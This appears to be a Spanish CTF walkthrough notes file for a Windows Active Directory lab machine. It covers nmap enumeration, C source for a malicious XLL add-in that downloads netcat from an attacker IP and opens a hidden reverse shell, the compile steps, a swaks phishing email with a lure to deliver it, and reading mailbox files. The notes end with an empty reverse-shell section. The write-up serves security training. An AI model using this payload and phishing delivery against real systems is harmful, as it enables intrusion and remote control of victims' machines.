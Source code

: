 #ActiveDirectory #hard #windows 
### Ping

```python
❯ ping -c 1 10.10.11.21
PING 10.10.11.21 (10.10.11.21) 56(84) bytes of data.
64 bytes from 10.10.11.21: icmp_seq=1 ttl=127 time=151 ms

--- 10.10.11.21 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 151.127/151.127/151.127/0.000 ms
```

### TTL = 127 Windows

### nmap

```python
❯ sudo nmap -p- -open -sCV --min-rate 5000 -n -Pn 10.10.11.21 -oN Scan
[sudo] password for gleoq: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-27 19:21 EDT
Nmap scan report for 10.10.11.21
Host is up (0.15s latency).
Not shown: 65512 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: MAINFRAME, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Axlle Development
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-27 23:22:29Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: axlle.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: axlle.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-06-27T23:23:59+00:00; -3s from scanner time.
| ssl-cert: Subject: commonName=MAINFRAME.axlle.htb
| Not valid before: 2024-05-19T11:25:03
|_Not valid after:  2024-11-18T11:25:03
| rdp-ntlm-info: 
|   Target_Name: AXLLE
|   NetBIOS_Domain_Name: AXLLE
|   NetBIOS_Computer_Name: MAINFRAME
|   DNS_Domain_Name: axlle.htb
|   DNS_Computer_Name: MAINFRAME.axlle.htb
|   DNS_Tree_Name: axlle.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2024-06-27T23:23:21+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49169/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49170/tcp open  msrpc         Microsoft Windows RPC
49175/tcp open  msrpc         Microsoft Windows RPC
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
52440/tcp open  msrpc         Microsoft Windows RPC
61423/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: MAINFRAME; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -3s, deviation: 0s, median: -3s
| smb2-time: 
|   date: 2024-06-27T23:23:24
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.59 seconds
```

### Enumeración del puerto 80 (http)
parece que no podemos ver nada explotable en la web. así que vamos a seguir enumerando
![[Pasted image 20240627192751.png]]

parece que podemos hacer algún tipo de petición al correo `acconunts@axlle.htb` 
![[Pasted image 20240629111401.png]]

### DLL Hijacking
con este script en C vamos a intentar hacer una petición DLL

```python
#include <windows.h>
#include <urlmon.h>
#pragma comment(lib, "urlmon.lib")
__declspec(dllexport) short __stdcall xlAutoOpen()
{
HRESULT hr = URLDownloadToFileW(NULL, L"http://10.10.14.15:80/nc64.exe", L"C:\\Windows\\Tasks\\nc64.exe", 0,
NULL);
if (SUCCEEDED(hr)) {
WinExec("C:\\Windows\\Tasks\\nc64.exe -e cmd 10.10.14.15 443", SW_HIDE);
}
return 0;
}
```

### Compilamos el  dll con mingw-w64

```python
>	sudo apt install mingw-w64


>	x86_64-w64-mingw32-gcc -shared -o exploit.dll exploit.c -Wl,--output-def,exploit.def -lurlmon
```

### cambiamos la extensión del script

```python
>	mv exploit.dll exploit.xll
```

### Enviamos el XLL a accounts@axlle.htb vía SMTP

```python
swaks --to "accounts@axlle.htb" --from "gleoq@axlle.htb" --header "Subject: Open this exploit" --body "This is a picture of my girlfriend" --attach-type application/octet-stream --attach @exploit.xll --server axlle.htb --port 25 --timeout 20s
```

![[Pasted image 20240629113053.png]]

### Enumeración del sistema
abajo a la derecha podemos observar la terminal. de la maquina victima. he conseguido un archivo `xml` con información importante 

```python
type C:\Program Files (x86)\hMailServer\Data\axlle.htb\dallon.matrix\2F\{2F7523BD-628F-4359-913E-
A873FCC59D0F}.eml
```

![[Pasted image 20240629114836.png]]

### Reverse shell
creamos un `exploit con msfvenom` 








### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad | Tipo | Nivel | Link |
| -------------- | --------------------------- | ---- | ----- | ---- |
|                |                             |      |       |      |
|                |                             |      |       |      |
|                |                             |      |       |      |
